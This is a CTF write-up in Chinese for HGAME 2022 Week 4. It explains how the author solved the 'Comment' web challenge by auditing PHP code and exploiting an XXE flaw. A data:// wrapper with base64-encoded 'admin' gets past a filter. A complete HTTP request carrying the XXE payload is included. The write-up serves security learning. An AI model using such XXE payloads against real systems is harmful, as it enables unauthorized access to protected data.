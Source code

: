 ```yaml
---
title: HGAME 2022 Week4 writeup
date: 2022-02-18 20:00:00
tags: ctf
top_img: https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/logo_2022.png
cover: https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/logo_2022.png
---
```

# HGAME 2022 Week4 writeup by ek1ng

## WEB

这周的web还是有点遗憾，没能做出Markdown Online这个题，绕登录的地方猜测是原型链污染但是死活绕不过去，也不知道为啥，差点就圆满啦

![image-20220217200138057](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220217200138057.png)

### Comment

这是一个php代码审计的题目，考察的是XXE漏洞和php伪协议的知识点

通过代码审计我们首先是了解到，服务端总共有info，add，get接口，info接口的话就是对于每一个访问的用户，都会分配一个Session id，那么以此来对每个用户输入的信息单独做存储，add接口是以post方式发送XML结构的这样的数据，然后被php://input读取后，解析xml，变成sender:content这样的键值对的方式存储在数据库，然后get接口就是请求存在数据库里面的数据，并且传回前端渲染出来，让用户看见，整体的逻辑就是这样，那么我们能够发现代码这里有些问题

![image-20220217143809043](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220217143809043.png)

我们需要让sender的值变成admin，那么返回的时候，content的内容就会变成flag啦，但是并不能直接传入admin，因为代码会检测是否存在明文admin，那么这个时候我们就需要使用php伪协议，需要注意源码中的waf过滤，我们这里采用data伪协议，通过base64转换编码的方式，传入一个base64编码后的admin，然后服务端会base64解码后作为sender的值，诶那么服务端就会认为sender是admin，这样就绕过了不能出现明文admin的这个点

然后如果说通过这个add接口传入了一些解析不了的内容，那么就要重新拿个Session id了，所以说做的过程中也是重新拿了好多次

payload如下

```http
POST http://146.56.223.34:60045/api.php?action=add HTTP/1.1
Host: 146.56.223.34:60045
Connection: keep-alive
Content-Length: 137
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
content-type: text/xml
Accept: */*
Origin: http://146.56.223.34:60045
Referer: http://146.56.223.34:60045/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=51eb3578d1fa8dd783471c17a15c59ed

<!DOCTYPE a [<!ENTITY xxe SYSTEM 'data://text/plain;base64,YWRtaW4='> ]>
<comment><sender>&xxe;</sender><content>111</content></comment>
```
